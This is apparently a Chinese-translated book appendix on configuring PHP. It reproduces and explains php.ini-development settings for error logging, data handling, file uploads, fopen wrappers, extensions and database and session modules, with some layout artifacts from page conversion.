;docref_root = "/phpmanual/"

; http://php.net/docref-ext
;docref_ext = .html

; 在错误消息之前输出的字符串。PHP的默认行为是保留
; 此设置为空。
; http://php.net/error-prepend-string
; 示例：
;error_prepend_string = "<font color=#ff0000>"

; 在错误消息之后输出的字符串。PHP的默认行为是保留
; 此设置为空。
; http://php.net/error-append-string
; 示例：
;error_append_string = "</font>"

; 将错误记录到指定文件。PHP的默认行为是保留此值为空。
; http://php.net/error-log
; 示例：
;error_log = php_errors.log
; 将错误记录到syslog（NT上的事件日志，Windows 95中无效）。
;error_log = syslog
```

## 数据处理

本节讨论PHP如何处理进入和离开脚本的数据。感兴趣的指令包括variables_order和request_order，它们允许您自定义填充哪些超全局变量以及顺序，以及post_max_size，它限制可以在post请求中发送的数据量（请注意，这也限制了文件上传的大小——有关更多详细信息，请参见本附录稍后的“文件上传”部分）。

如果您习惯于较旧版本的PHP，请注意，在PHP 5.3中，魔术引号和全局注册功能现已弃用，并将从PHP 6中删除。

```
;;;;;;;;;;;;;;;;;;;
; 数据处理 ;
;;;;;;;;;;;;;;;;;;;

; 注意 - track_vars始终启用

; PHP生成的URL中用于分隔参数的分隔符。
; PHP的默认设置为"&"。
; http://php.net/arg-separator.output
; 示例：
;arg_separator.output = "&amp;",

; PHP用于将输入URL解析为变量的分隔符列表。
; PHP的默认设置为"&"。
```

```
; 注意：此指令中的每个字符都被视为分隔符！
; http://php.net/arg-separator.input
; 示例：
;arg_separator.input = ";,&"
arg_separator.input = ";,&"
```

```
; 此指令确定PHP启动时注册哪些超全局数组。如果register_globals指令已启用，
; 它还确定变量填充到全局空间的顺序。G,P,C,E & S是
; 以下各自超全局变量的缩写：GET、POST、COOKIE、
; ENV和SERVER。注册这些数组会带来性能开销，并且因为ENV不像其他
; 变量那样常用，所以不建议在生产服务器上使用ENV。如果需要，
; 您仍然可以通过getenv()访问环境变量。
; 默认值："EGPCS"
; 开发值："GPCS"
; 生产值："GPCS"
; http://php.net/variables-order
variables_order = "GPCS"
```

```
; 此指令确定哪些超全局数据（G,P,C,E & S）应
; 注册到超全局数组REQUEST中。如果是，它还确定
; 注册该数据的顺序。此指令的值以与
; variables_order指令相同的方式指定，唯一的区别是。
; 将此值留空将导致PHP使用variables_order指令中设置的值。
; 这并不意味着它会使超全局数组REQUEST为空。
; 默认值：无
; 开发值："GP"
; 生产值："GP"
; http://php.net/request-order
request_order = "GP"
```

```
; 是否将EGPCS变量注册为全局变量。如果您不希望用户数据
; 使脚本的全局作用域变得混乱，则可能希望关闭此功能。
; 当与track_vars结合使用时，这最有意义，在这种情况下，
; 您可以通过$HTTP_*_VARS[]变量访问所有GPC变量。
; 您应尽力编写脚本，使其不需要register_globals开启；
; 如果代码未经深思熟虑，将表单变量用作全局变量可能会轻易导致
; 可能的安全问题。
; http://php.net/register-globals
register_globals = Off
```

```
; 确定PHP是否注册已弃用的长$HTTP_*_VARS类型预定义变量。
; 由于它们已弃用，我们显然不建议您使用它们。出于兼容性原因，
; 它们默认开启，但不建议在生产服务器上使用。
; 默认值：On
; 开发值：Off
; 生产值：Off
; http://php.net/register-long-arrays
register_long_arrays = Off
```

```
; 此指令确定PHP是否每次运行时都注册$argv和$argc


; 脚本运行时，$argv 包含传递给 PHP 的所有参数的数组。
; $argc 包含一个整数，表示调用脚本时传递的参数数量。
; 这些数组在从命令行运行脚本时非常有用。
; 启用此指令后，每次执行脚本时注册这些变量都会消耗 CPU 周期和内存。
; 出于性能原因，生产服务器上应禁用此功能。
; 注意：对于 CLI SAPI，此指令被硬编码为 On。
; 默认值：On
; 开发值：Off
; 生产值：Off
; http://php.net/register-argc-argv
register_argc_argv = Off

; 启用后，SERVER 和 ENV 变量将在首次使用时（即“即时”）创建，而不是在脚本启动时创建。
; 如果脚本中未使用这些变量，启用此指令将带来性能提升。
; 要使此指令生效，必须禁用 PHP 指令 register_globals、register_long_arrays 和 register_argc_argv。
; http://php.net/auto-globals-jit
auto_globals_jit = On

; PHP 将接受的 POST 数据的最大大小。
; http://php.net/post-max-size
post_max_size = 8M

; 魔术引号是 PHP 的一项预处理功能，PHP 将尝试转义 GET、POST、COOKIE 和 ENV 数据中可能
; 否则会在将数据提供给您之前损坏放入数据库等资源中的数据中的任何字符序列。
; 由于字符编码问题以及许多数据库中非标准的 SQL 实现，目前无法使此功能 100% 准确。
; PHP 的默认行为是启用该功能。我们强烈建议您使用专为所使用的数据库设计的转义机制，
; 而不依赖于此功能。另请注意，此功能自 PHP 5.3.0 起已弃用，并计划在 PHP 6 中移除。
; 默认值：On
; 开发值：Off
; 生产值：Off
; http://php.net/magic-quotes-gpc
magic_quotes_gpc = Off

; 运行时生成数据的魔术引号，例如来自 SQL、exec() 等的数据。
; http://php.net/magic-quotes-runtime
magic_quotes_runtime = Off

; 使用 Sybase 风格的魔术引号（用 '' 转义 ' 而不是 \'）。
; http://php.net/magic-quotes-sybase
magic_quotes_sybase = Off

; 在 PHP 文档之前自动添加文件。
; http://php.net/auto-prepend-file
auto_prepend_file =

```
; Automatically add files after PHP document.
; http://php.net/auto-append-file
auto_append_file =
```

```
; By default, PHP will output a character encoding using
; the Content-type: header. To disable sending of the charset, simply
; set it to be empty.
;
; PHP's built-in default is text/html
; http://php.net/default-mimetype
default_mimetype = "text/html"
```

```
; PHP's default character set is set to empty.
; http://php.net/default-charset
;default_charset = "iso-8859-1"
```

```
; Always populate the $HTTP_RAW_POST_DATA variable. PHP's default behavior is
; to disable this feature.
; http://php.net/always-populate-raw-post-data
;always_populate_raw_post_data = On
```

## 路径和目录

本节在各种安全和其他杂项设置之余，还指定了 include_path 的默认值。（有关包含路径的更多信息，请参见第 20 章“编写模块化代码”部分。）

;;;;;;;;;;;;;;;;;;;;;;;;;
; 路径和目录 ;
;;;;;;;;;;;;;;;;;;;;;;;;;

; UNIX: "/path1:/path2"
;include_path = ".:/php/includes"
;
; Windows: "\path1;\path2"
;include_path = ".;c:\\php\\includes"
;

; include_path 的 PHP 默认设置为 ".;/path/to/php/pear"
; http://php.net/include-path

; PHP 页面的根目录，仅在非空时使用。
; 如果 PHP 未使用 FORCE_REDIRECT 编译，则您应该设置 doc_root。
; 如果在任何 Web 服务器（IIS 除外）下以 CGI 形式运行 PHP，则应设置 doc_root。
; 请参阅文档了解安全问题。替代方案是使用以下
; cgi.force_redirect 配置。
; http://php.net/doc-root
doc_root =

; PHP 使用 /~username 打开脚本所在的目录，仅在非空时使用。
; http://php.net/user-dir
user_dir =

; 加载扩展（模块）所在的目录。
; http://php.net/extension-dir
; extension_dir = "./"
; 在 Windows 上：
; extension_dir = "ext"

; 是否启用 dl() 函数。dl() 函数在多线程服务器（如 IIS 或 Zeus）上无法
; 正常工作，并且会在它们上自动禁用。
; http://php.net/enable-dl
enable_dl = Off

; cgi.force_redirect 为在大多数 Web 服务器下以 CGI 形式运行 PHP 提供安全保障是必要的。如果未定义，PHP 将默认启用它。您可以在此处自行承担风险将其关闭。
; **您可以安全地为 IIS 关闭此选项，事实上，您必须这样做。**
; http://php.net/cgi.force-redirect
;cgi.force_redirect = 1

; 如果启用 cgi.nph，它将强制 CGI 对每个请求始终发送 Status: 200。PHP 的默认行为是禁用此功能。
;cgi.nph = 1

; 如果启用了 cgi.force_redirect，并且您不是在 Apache 或 Netscape (iPlanet) Web 服务器下运行，则您可能需要设置 PHP 将查找的环境变量名称，以知道可以继续执行。设置此变量可能会导致安全问题，在操作前请务必了解自己在做什么。
; http://php.net/cgi.redirect-status-env
; cgi.redirect_status_env =

; cgi.fix_pathinfo 为 CGI 提供 *真实的* PATH_INFO/PATH_TRANSLATED 支持。PHP 以前的行为是将 PATH_TRANSLATED 设置为 SCRIPT_FILENAME，并且不了解 PATH_INFO 是什么。有关 PATH_INFO 的更多信息，请参见 CGI 规范。将此项设置为 1 将导致 PHP CGI 修复其路径以符合规范。设置为零会导致 PHP 表现如以前一样。默认值为 1。您应该修改脚本以使用 SCRIPT_FILENAME 而不是 PATH_TRANSLATED。
; http://php.net/cgi.fix-pathinfo
;cgi.fix_pathinfo=1

; 基于 WINNT 的操作系统上的 IIS 下的 FastCGI 支持模拟调用客户端的安全令牌的功能。这使得 IIS 可以定义请求运行所在的安全上下文。Apache 下的 mod_fastcgi 目前不支持此功能（03/17/2002）。
; 如果在 IIS 下运行，请设置为 1。默认值为零。
; http://php.net/fastcgi.impersonate
;fastcgi.impersonate = 1

; 禁用通过 FastCGI 连接的日志记录。PHP 的默认行为是启用此功能。
;fastcgi.logging = 0

; cgi.rfc2616_headers 配置选项告诉 PHP 在发送 HTTP 响应代码时使用什么类型的标头。如果设置为 0，PHP 将发送 Apache 支持的 Status: 标头。当此选项设置为 1 时，PHP 将发送符合 RFC2616 的标头。默认值为零。
; http://php.net/cgi.rfc2616-headers
;cgi.rfc2616_headers = 0

## 文件上传

本节包含 HTTP 文件上传的设置，如第 9 章“创建文件上传表单”中所述。file_uploads 打开或关闭文件上传功能。upload_tmp_dir 指定存储上传文件的临时位置，直到脚本移动它们为止。upload_max_filesize 设置上传文件大小的上限（请注意，此限制还受数据处理部分中 post_max_size 的控制）。如果您需要访问者能够上传较大的文件，请增加此值。

;;;;;;;;;;;;;;;
; 文件上传 ;
;;;;;;;;;;;;;;;

; 是否允许 HTTP 文件上传。
file_uploads = On

; HTTP 上传文件的临时目录（如果未指定，将使用系统默认值）。
;upload_tmp_dir =

; 上传文件的最大允许大小。
upload_max_filesize = 2M

## Fopen 包装器

如在第 11 章中所见，您可以使用 fopen() 不仅打开 Web 服务器上的文件，还可以读取远程 URL 并将其视为文件。同样，您可以使用 include() 和 require() 等函数将来自 URL 的 PHP 代码包含在脚本中。

打开 URL 使用协议处理程序——也称为包装器——您可以在本节中配置这些包装器。


allow_url_fopen 用于开启或关闭这些封装协议，allow_url_include 控制是否可以使用 include()/require() 包含代码（这是一个潜在的安全风险）。from 定义用于匿名访问 ftp:// URL 的 FTP 密码，user_agent 设置 PHP 请求 URL 时发送的 HTTP User-Agent 请求头。default_socket_timeout 指定 PHP 在尝试打开 URL 并放弃前等待的时间。最后，auto_detect_line_endings 确保在不同操作系统（无论是 Windows、Mac OS 还是 UNIX）上创建的文件中的行结束符被正确解析。

```
;;;;;;;;;;;;;;;;;;;;;;;
; Fopen wrappers ;
;;;;;;;;;;;;;;;;;;;;;;;

; Whether to allow the treatment of URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-fopen
allow_url_fopen = On

; Whether to allow include/require to open URLs (like http:// or ftp://) as files.
; http://php.net/allow-url-include
allow_url_include = Off

; Define the anonymous ftp password (your email address). PHP's default setting
; for this is empty.
; http://php.net/from
;from="john@doe.com"

; Define the User-Agent string. PHP's default setting for this is empty.
; http://php.net/user-agent
;user_agent="PHP"

; Default timeout for socket based streams (seconds)
; http://php.net/default-socket-timeout
default_socket_timeout = 60

; If your scripts have to deal with files from Macintosh systems,
; or you are running on a Mac and need to deal with files from
; unix or win32 systems, setting this flag will cause PHP to
; automatically detect the EOL character in those files so that
; fgets() and file() will work regardless of the source of the file.
; http://php.net/auto-detect-line-endings
;auto_detect_line_endings = Off
```

## 动态扩展

PHP 引擎实际上由两部分组成——核心引擎和扩展模块。有些扩展是内置的，而其他扩展存储在单独的库文件中（以 .so 或 .dll 结尾），需要动态加载，要么在脚本中使用 dl() 函数，要么在 PHP 启动时加载。要在 PHP 启动时加载扩展，请将其文件名添加到此部分（如果已列出，则取消注释）。

## 附录 B：配置 PHP

扩展模块需要存储在扩展目录中，该目录通过“路径和目录”部分中的 extension_dir 指令指定。

```
;;;;;;;;;;;;;;;;;;;;;;;;;
; Dynamic Extensions ;
;;;;;;;;;;;;;;;;;;;;;;;;;
; If you wish to have an extension loaded automatically, use the following
; syntax:
; extension=modulename.extension
;
; For example, on Windows:
;
; extension=msql.dll
;
; ... or under UNIX:
;
; extension=msql.so
;
; ... or with a path:
;
; extension=/path/to/extension/msql.so
;
; If you only provide the name of the extension, PHP will look for it in its
; default extension directory.
;
; Windows Extensions
; Note that ODBC support is built in, so no dll is needed for it.
; Note that many DLL files are located in the extensions/ (PHP 4) ext/ (PHP 5)
; extension folders as well as the separate PECL DLL download (PHP 5).
; Be sure to appropriately set the extension_dir directive.
;
;extension=php_bz2.dll
;extension=php_curl.dll
;extension=php_dba.dll
;extension=php_exif.dll
;extension=php_fileinfo.dll
;extension=php_gd2.dll
;extension=php_gettext.dll
;extension=php_gmp.dll
;extension=php_intl.dll
;extension=php_imap.dll
;extension=php_interbase.dll
;extension=php_ldap.dll
;extension=php_mbstring.dll
;extension=php_ming.dll
;extension=php_mssql.dll
;extension=php_mysql.dll
;extension=php_mysqli.dll
;extension=php_oci8.dll ; Use with Oracle 10gR2 Instant Client
;extension=php_oci8_11g.dll ; Use with Oracle 11g Instant Client
;extension=php_openssl.dll
;extension=php_pdo_firebird.dll
;extension=php_pdo_mssql.dll
;extension=php_pdo_mysql.dll
;extension=php_pdo_oci.dll
;extension=php_pdo_odbc.dll
;extension=php_pdo_pgsql.dll
;extension=php_pdo_sqlite.dll
;extension=php_pgsql.dll
;extension=php_phar.dll
;extension=php_pspell.dll
;extension=php_shmop.dll
;extension=php_snmp.dll
;extension=php_soap.dll
;extension=php_sockets.dll
;extension=php_sqlite.dll
;extension=php_sqlite3.dll
;extension=php_sybase_ct.dll
;extension=php_tidy.dll
;extension=php_xmlrpc.dll
;extension=php_xsl.dll
;extension=php_zip.dll
```

### 模块设置

php.ini 文件的最后一部分（也是最长的一部分）允许你配置每个扩展模块，无论是内置还是动态加载的。每个扩展的配置都被分组到以方括号中的扩展名称开头的部分中（例如，[sqlite]）。每个配置指令都以常规方式定义：

```
directive_name = directive_value
```

以下是 php.ini-development 中包含的默认模块设置。（请注意，仅因为某个模块在此处配置，并不一定意味着该模块已加载。）

## 附录 B：配置 PHP

```
;;;;;;;;;;;;;;;;;;;
; Module Settings ;
;;;;;;;;;;;;;;;;;;;

[Date]
; Defines the default timezone used by the date functions
; http://php.net/date.timezone
;date.timezone =

; http://php.net/date.default-latitude
;date.default_latitude = 31.7667

; http://php.net/date.default-longitude
;date.default_longitude = 35.2333

; http://php.net/date.sunrise-zenith
;date.sunrise_zenith = 90.583333

; http://php.net/date.sunset-zenith
;date.sunset_zenith = 90.583333

[filter]
; http://php.net/filter.default
;filter.default = unsafe_raw

; http://php.net/filter.default-flags
;filter.default_flags =

[iconv]
;iconv.input_encoding = ISO-8859-1
;iconv.internal_encoding = ISO-8859-1
;iconv.output_encoding = ISO-8859-1

[intl]
;intl.default_locale =

[sqlite]
; http://php.net/sqlite.assoc-case
;sqlite.assoc_case = 0

[sqlite3]
sqlite3.extension_dir =

[Pcre]
;PCRE library backtracking limit.
; http://php.net/pcre.backtrack-limit
;pcre.backtrack_limit=100000

;PCRE library recursion limit.
;Please note that if you set this value to a high number you may consume all
the available process stack and eventually crash PHP (due to reaching the
stack size limit imposed by the Operating System).
; http://php.net/pcre.recursion-limit
;pcre.recursion_limit=100000

[Pdo]
; Whether to pool ODBC connections. Can be one of "strict", "relaxed" or "off"
; http://php.net/pdo-odbc.connection-pooling
pdo_odbc.connection_pooling=strict

;pdo_odbc.db2_instance_name

[Pdo_mysql]
; If mysqlnd is used: Number of cache slots for the internal result set cache
; http://php.net/pdo_mysql.cache_size
pdo_mysql.cache_size = 2000

; Default socket name for local MySQL connects. If empty, uses the built-in
; MySQL defaults.
; http://php.net/pdo_mysql.default-socket
pdo_mysql.default_socket=

[Phar]
; http://php.net/phar.readonly
;phar.readonly = On

; http://php.net/phar.require-hash
;phar.require_hash = On

;phar.cache_list =

[Syslog]
; Whether or not to define the various syslog variables (e.g. $LOG_PID,
; $LOG_CRON, etc.). Turning it off is a good idea performance-wise. In
; runtime, you can define these variables by calling define_syslog_variables().
; http://php.net/define-syslog-variables
define_syslog_variables = Off

[mail function]
; For Win32 only.
; http://php.net/smtp
SMTP = localhost
; http://php.net/smtp-port
smtp_port = 25

; For Win32 only.
; http://php.net/sendmail-from
;sendmail_from = me@example.com

; For Unix only. You may supply arguments as well (default: "sendmail -t -i").
; http://php.net/sendmail-path
;sendmail_path =

; Force the addition of the specified parameters to be passed as extra parameters
; to the sendmail binary. These parameters will always replace the value of
; the 5th parameter to mail(), even in safe mode.
;mail.force_extra_parameters =

; Add X-PHP-Originating-Script: that will include uid of the script followed by the filename
mail.add_x_header = On

; Log all mail() calls including the full path of the script, line #, to address and headers
;mail.log =

[SQL]
; http://php.net/sql.safe-mode
sql.safe_mode = Off

[ODBC]
; http://php.net/odbc.default-db
;odbc.default_db = Not yet implemented
```


## 附录 B：配置 PHP

```
; http://php.net/odbc.default-user
;odbc.default_user = Not yet implemented
```

```
; http://php.net/odbc.default-pw
;odbc.default_pw = Not yet implemented
```

```
; Controls the ODBC cursor model.
; Default: SQL_CURSOR_STATIC (default).
;odbc.default_cursortype
```

```
; Allow or prevent persistent links.
; http://php.net/odbc.allow-persistent
odbc.allow_persistent = On
```

```
; Check that a connection is still valid before reuse.
; http://php.net/odbc.check-persistent
odbc.check_persistent = On
```

```
; Maximum number of persistent links. -1 means no limit.
; http://php.net/odbc.max-persistent
odbc.max_persistent = -1
```

```
; Maximum number of links (persistent + non-persistent). -1 means no limit.
; http://php.net/odbc.max-links
odbc.max_links = -1
```

```
; Handling of LONG fields. Returns number of bytes to variables. 0 means passthru.
; passthru.
; http://php.net/odbc.defaultlrl
odbc.defaultlrl = 4096
```

```
; Handling of binary data. 0 means passthru, 1 return as is, 2 convert to char.
; See the documentation on odbc_binmode and odbc_longreadlen for an explanation
; of odbc.defaultlrl and odbc.defaultbinmode
; http://php.net/odbc.defaultbinmode
odbc.defaultbinmode = 1
```

```
;birdstep.max_links = -1
```

### [Interbase]

```
; Allow or prevent persistent links.
ibase.allow_persistent = 1
```

```
; Maximum number of persistent links. -1 means no limit.
ibase.max_persistent = -1
```

```
; Maximum number of links (persistent + non-persistent). -1 means no limit.
ibase.max_links = -1
```

```
; Default database name for ibase_connect().
;ibase.default_db =
```

```
; Default username for ibase_connect().
;ibase.default_user =
```

```
; Default password for ibase_connect().
;ibase.default_password =

; Default charset for ibase_connect().
;ibase.default_charset =

; Default timestamp format.
ibase.timestampformat = "%Y-%m-%d %H:%M:%S"

; Default date format.
ibase.dateformat = "%Y-%m-%d"

; Default time format.
ibase.timeformat = "%H:%M:%S"
```

### [MySQL]

```
; Allow accessing, from PHP's perspective, local files with LOAD DATA statements
; http://php.net/mysql.allow_local_infile
mysql.allow_local_infile = On
```

```
; Allow or prevent persistent links.
; http://php.net/mysql.allow-persistent
mysql.allow_persistent = On
```

```
; If mysqlnd is used: Number of cache slots for the internal result set cache
; http://php.net/mysql.cache_size
mysql.cache_size = 2000
```

```
; Maximum number of persistent links. -1 means no limit.
; http://php.net/mysql.max-persistent
mysql.max_persistent = -1
```

```
; Maximum number of links (persistent + non-persistent). -1 means no limit.
; http://php.net/mysql.max-links
mysql.max_links = -1
```

```
; Default port number for mysql_connect(). If unset, mysql_connect() will use
; the $MYSQL_TCP_PORT or the mysql-tcp entry in /etc/services or the
; compile-time value defined MYSQL_PORT (in that order). Win32 will only look
; at MYSQL_PORT.
; http://php.net/mysql.default-port
mysql.default_port =
```

```
; Default socket name for local MySQL connects. If empty, uses the built-in
; MySQL defaults.
; http://php.net/mysql.default-socket
mysql.default_socket =
```

```
; Default host for mysql_connect() (doesn't apply in safe mode).
; http://php.net/mysql.default-host
mysql.default_host =
```

```
; Default user for mysql_connect() (doesn't apply in safe mode).
; http://php.net/mysql.default-user
mysql.default_user =
```

```
; Default password for mysql_connect() (doesn't apply in safe mode).
; Note that this is generally a *bad* idea to store passwords in this file.
; *Any* user with PHP access can run 'echo get_cfg_var("mysqli.default_password")
; and reveal this password! And of course, any users with read access to this
; file will be able to reveal the password as well.
; http://php.net/mysqli.default-password
mysqli.default_password =
```

```
; Maximum time (in seconds) for connect timeout. -1 means no limit
; http://php.net/mysql.connect-timeout
mysql.connect_timeout = 60
```

```
; Trace mode. When trace_mode is active (=On), warnings for table/index scans and
; SQL-Errors will be displayed.
; http://php.net/mysql.trace-mode
mysql.trace_mode = Off
```

### [MySQLi]

```
; Maximum number of persistent links.  -1 means no limit.
; http://php.net/mysqli.max-persistent
mysqli.max_persistent = -1
```

```
; Maximum number of links.  -1 means no limit.
; http://php.net/mysqli.max-links
mysqli.max_links = -1
```

```
; If mysqlnd is used: Number of cache slots for the internal result set cache
; http://php.net/mysqli.cache_size
mysqli.cache_size = 2000
```

```
; Default port number for mysqli_connect().  If unset, mysqli_connect() will use
; the $MYSQL_TCP_PORT or the mysql-tcp entry in /etc/services or the
; compile-time value defined MYSQL_PORT (in that order).  Win32 will only look
; at MYSQL_PORT.
; http://php.net/mysqli.default-port
mysqli.default_port = 3306
```

```
; Default socket name for local MySQL connects.  If empty, uses the built-in
; MySQL defaults.
; http://php.net/mysqli.default-socket
mysqli.default_socket =
```

```
; Default host for mysql_connect() (doesn't apply in safe mode).
; http://php.net/mysql.default-host
mysqli.default_host =
```

```
; Default user for mysqli_connect() (doesn't apply in safe mode).
; http://php.net/mysqli.default-user
mysqli.default_user =
```

```
; Default password for mysqli_connect() (doesn't apply in safe mode).
; Note that this is generally a *bad* idea to store passwords in this file.
; *Any* user with PHP access can run 'echo get_cfg_var("mysqli.default_pw")
; and reveal this password! And of course, any users with read access to this
; file will be able to reveal the password as well.
; http://php.net/mysqli.default-pw
mysqli.default_pw =
```

```
; Allow or prevent reconnect
mysqli.reconnect = Off
```

### [mysqli]

```
; Enable / Disable collection of general statistics by mysqli which can be
; used to tune and monitor MySQL operations.
; http://php.net/mysqli.collect_statistics
mysqli.collect_statistics = On

; Enable / Disable collection of memory usage statistics by mysqli which can be
; used to tune and monitor MySQL operations.
; http://php.net/mysqli.collect_memory_statistics
mysqli.collect_memory_statistics = On

; Size of a pre-allocated buffer used when sending commands to MySQL in bytes.
; http://php.net/mysqli.net_cmd_buffer_size
;mysqli.net_cmd_buffer_size = 2048

; Size of a pre-allocated buffer used for reading data sent by the server in
; bytes.
; http://php.net/mysqli.net_read_buffer_size
mysqli.net_read_buffer_size = 32768
```

### [OCI8]

```
; Connection: Enables privileged connections using external
; credentials (OCI_SYSOPER, OCI_SYSDBA)
; http://php.net/oci8.privileged-connect
;oci8.privileged_connect = Off

; Connection: The maximum number of persistent OCI8 connections per
; process. Using -1 means no limit.
; http://php.net/oci8.max-persistent
;oci8.max_persistent = -1

; Connection: The maximum number of seconds a process is allowed to
; maintain an idle persistent connection. Using -1 means idle
; persistent connections will be maintained forever.
; http://php.net/oci8.persistent-timeout
;oci8.persistent_timeout = -1

; Connection: The number of seconds that must pass before issuing a
; ping during oci_pconnect() to check the connection validity. When
; set to 0, each oci_pconnect() will cause a ping. Using -1 disables
; pings completely.
; http://php.net/oci8.ping-interval
;oci8.ping_interval = 60

; Connection: Set this to a user chosen connection class to be used
; for all pooled server requests with Oracle 11g Database Resident
; Connection Pooling (DRCP). To use DRCP, this value should be set to
; the same string for all web servers running the same application,
; the database pool must be configured, and the connection string must
; specify to use a pooled server.
;oci8.connection_class =

; High Availability: Using On lets PHP receive Fast Application
; Notification (FAN) events generated when a database node fails. The
; database must also be configured to post FAN events.
;oci8.events = Off

; Tuning: This option enables statement caching, and specifies how
; many statements to cache. Using 0 disables statement caching.
; http://php.net/oci8.statement-cache-size
;oci8.statement_cache_size = 20

; Tuning: Enables statement prefetching and sets the default number of
; rows that will be fetched automatically after statement execution.
; http://php.net/oci8.default-prefetch
;oci8.default_prefetch = 100

; Compatibility. Using On means oci_close() will not close
; oci_connect() and oci_new_connect() connections.
; http://php.net/oci8.old-oci-close-semantics
;oci8.old_oci_close_semantics = Off
```

### [PostgresSQL]

```
; Allow or prevent persistent links.
; http://php.net/pgsql.allow-persistent
pgsql.allow_persistent = On

; Detect broken persistent links always with pg_pconnect().
; Auto reset feature requires a little overheads.
; http://php.net/pgsql.auto-reset-persistent
pgsql.auto_reset_persistent = Off

; Maximum number of persistent links. -1 means no limit.
; http://php.net/pgsql.max-persistent
pgsql.max_persistent = -1

; Maximum number of links (persistent+non persistent). -1 means no limit.
; http://php.net/pgsql.max-links
pgsql.max_links = -1

; Ignore PostgreSQL backends Notice message or not.
; Notice message logging require a little overheads.
; http://php.net/pgsql.ignore-notice
```


pgsql.ignore_notice = 0

; 记录 PostgreSQL 后端通知消息与否。
; 除非 pgsql.ignore_notice=0，否则模块无法记录通知消息。
; http://php.net/pgsql.log-notice
pgsql.log_notice = 0

## [Sybase-CT]

; 允许或阻止持久链接。
; http://php.net/sybct.allow-persistent
sybct.allow_persistent = On

; 持久链接的最大数量。-1 表示无限制。
; http://php.net/sybct.max-persistent
sybct.max_persistent = -1

; 链接的最大数量（持久 + 非持久）。-1 表示无限制。
; http://php.net/sybct.max-links
sybct.max_links = -1

; 要显示的最小服务器消息严重级别。
; http://php.net/sybct.min-server-severity
sybct.min_server_severity = 10

; 要显示的最小客户端消息严重级别。
; http://php.net/sybct.min-client-severity
sybct.min_client_severity = 10

; 为每个上下文设置超时时间
; http://php.net/sybct.timeout
;sybase.timeout=

;sybase.packet_size

; 等待连接尝试成功的最长时间（秒），如果在此期限
; 内连接未成功，则返回失败。
; 默认：一分钟
;sybase.login_timeout=

; 你声称连接所来自的主机名，供 sp_who 显示。
; 默认：无
;sybase.hostname=

; 允许定义死锁重试的频率。-1 表示“永远”。
; 默认：0
;sybase.deadlock_retry_count=

## [bcmath]

; 所有 bcmath 函数的小数位数。
; http://php.net/bcmath.scale
bcmath.scale = 0

## [browscap]

; http://php.net/browscap

;browscap = extra/browscap.ini

## [Session]

; 用于存储/检索数据的处理程序。
; http://php.net/session.save-handler
session.save_handler = files

; 传递给 save_handler 的参数。对于 files，这是
; 存储数据文件的路径。注意：Windows 用户必须更改此
; 变量才能使用 PHP 的会话函数。
;
; 路径可以定义为：
;
;     session.save_path = "N;/path"
;
; 其中 N 是整数。而不是将所有会话文件存储在
; /path 中，此操作将使用 N 层深的子目录，并
; 将会话数据存储在这些目录中。如果你
; 或你的操作系统在一个目录中有大量文件时会出现问题，这对于
; 处理大量会话的服务器来说是一种更高效的布局。
;
; 注意 1：PHP 不会自动创建此目录结构。
;         你可以使用 ext/session 目录中的脚本为此目的。
; 注意 2：如果你选择为会话存储使用子目录，请参阅下面的垃圾回收部分
;         使用子目录进行会话存储
;
; 文件存储模块默认使用模式 600 创建文件。
; 你可以通过使用
;
;     session.save_path = "N;MODE;/path"
;
; 其中 MODE 是模式的八进制表示。请注意，这
; 不会覆盖进程的 umask。
; http://php.net/session.save-path
;session.save_path = "/tmp"

; 是否使用 cookie。
; http://php.net/session.use-cookies
session.use_cookies = 1

; http://php.net/session.cookie-secure
;session.cookie_secure =

; 此选项强制 PHP 获取并使用 cookie 来存储和维护
; 会话 ID。我们鼓励此操作，因为它在防止会话劫持方面非常有帮助
; 前提是你不指定和管理自己的会话 ID。它并非
; 防御会话劫持的万能药，但这是一个好的开始。
; http://php.net/session.use-only-cookies
session.use_only_cookies = 1

; 会话名称（用作 cookie 名称）。
; http://php.net/session.name
session.name = PHPSESSID

; 在请求启动时初始化会话。
; http://php.net/session.auto-start
session.auto_start = 0

; cookie 的生存时间（秒），如果为 0，则直到浏览器重新启动。
; http://php.net/session.cookie-lifetime
session.cookie_lifetime = 0

; cookie 有效的路径。
; http://php.net/session.cookie-path
session.cookie_path = /

; cookie 有效的域。
; http://php.net/session.cookie-domain
session.cookie_domain =

; 是否向 cookie 添加 httpOnly 标志，这使得它
; 对浏览器脚本语言（如 JavaScript）不可访问。
; http://php.net/session.cookie-httponly
session.cookie_httponly =

; 用于序列化数据的处理程序。php 是 PHP 的标准序列化程序。
; http://php.net/session.serialize-handler
session.serialize_handler = php

; 定义启动“垃圾回收”进程的概率。
; 在每次会话初始化时。概率通过使用
; gc_probability/gc_divisor 计算。其中 session.gc_probability 是分子
; 而 gc_divisor 是方程中的分母。将此值设置为 1
; 当 session.gc_divisor 值为 100 时，大约有 1% 的机会
; 在任何给定请求上运行 gc。
; 默认值：1
; 开发值：1
; 生产值：1
; http://php.net/session.gc-probability
session.gc_probability = 1

; 定义在每次会话初始化时启动“垃圾回收”进程的概率。
; 会话初始化。概率通过使用以下
; 方程：
; gc_probability/gc_divisor。其中 session.gc_probability 是分子，而
; session.gc_divisor 是分母。将此值设置为 1
; 当 session.gc_divisor 值为 100 时，大约有 1% 的机会
; 在任何给定请求上运行 gc。将此值增加到 1000 将使你有
; 0.1% 的机会在任何给定请求上运行 gc。对于高流量生产环境，
; 服务器，
; 这是一种更高效的方法。
; 默认值：100
; 开发值：1000
; 生产值：1000
; http://php.net/session.gc-divisor
session.gc_divisor = 1000

; 经过此秒数后，存储的数据将被视为“垃圾”并
; 由垃圾回收进程清理。
; http://php.net/session.gc-maxlifetime
session.gc_maxlifetime = 1440

; 注意：如果你正在使用子目录选项来存储会话文件
; （参见上文的 session.save_path），则垃圾回收 *不会*
; 自动发生。你需要通过 shell 脚本、cron 条目或其他方法自行进行垃圾
; 回收。
; 例如，以下脚本相当于
; 将 session.gc_maxlifetime 设置为 1440（1440 秒 = 24 分钟）：
;   cd /path/to/sessions; find -cmin +24 | xargs rm

; PHP 4.2 及更早版本具有一个未记录的功能/缺陷，允许你
; 在全局作用域中初始化会话变量，即使 register_globals
; 被禁用。如果使用了此功能，PHP 4.3 及更高版本会警告你。
; 你可以分别禁用该功能和警告。目前，
; 警告仅在启用 bug_compat_42 时才会显示。此功能
; 如果处理不当，会引入一些严重的安全问题。建议
; 不要在生产服务器上使用此功能。但是你
; 应在开发服务器上启用此功能并启用警告。如果你
; 未在开发服务器上启用此功能，则在使用时你不会收到警告
; 使用，且由此引起的错误可能难以调试和追踪。
; 默认值：On
; 开发值：On
